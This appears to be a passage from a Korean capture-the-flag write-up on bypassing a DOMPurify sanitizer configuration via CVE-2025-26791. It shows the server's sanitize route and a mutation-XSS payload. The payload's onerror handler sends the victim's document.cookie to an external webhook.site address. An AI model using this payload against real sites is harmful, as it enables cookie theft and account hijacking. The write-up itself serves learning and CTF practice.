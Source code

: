 코드를 확인해보면 URLSearchParams에서 `title`과 `content`를 가져와서 base64 decoding을 진행한 후에 `/admin/sanitize` 로 요청을 보내서 sanitize한 결과를 innerHTML을 통해 페이지에 랜더링한다.

```jsx
const config = {
  SAFE_FOR_TEMPLATES: true,
  CUSTOM_ELEMENT_HANDLING: {
    tagNameCheck: /^custom-/,
  },
};

router.post("/sanitize", (req, res) => {
  const { title, content } = req.body;

  const window = new JSDOM("").window;
  const DOMPurify = createDOMPurify(window);

  const sanitizedTitle = DOMPurify.sanitize(title, config);
  const sanitizedContent = DOMPurify.sanitize(content, config);

  res.json({ title: sanitizedTitle, content: sanitizedContent });
});
```

`/admin/sanitize` 의 로직을 확인해보면 `config`에서 `SAFE_FOR_TEMPLATES` 와 `CUSTOM_ELEMENT_HANDLING` 의 프로퍼티를 가져와 sanitize 과정에서 사용하는 것을 알 수 있다.

이때, 위 config의 설정 값을 구글링하면 [CVE-2025-26791](https://nvd.nist.gov/vuln/detail/CVE-2025-26791) 라는 1day 취약점을 활용하는 챌린지임을 어렵지 알아낼 수 있다.

```html
<math
  ><custom-test
    ><mi
      ><li>
        <table>
          <custom-test><li></li></custom-test
          ><a>
            <style>
              <! \${
            </style>
            }
            <custom-b
              id="><img src onerror='location.href=`https://a393275e-a197-4977-9eb3-8a0cd803aab8.webhook.site/?q=`.concat(document.cookie);'>"
              >hmm...</custom-b
            >
          </a>
        </table>
      </li></mi
    ></custom-test
  ></math
>
```
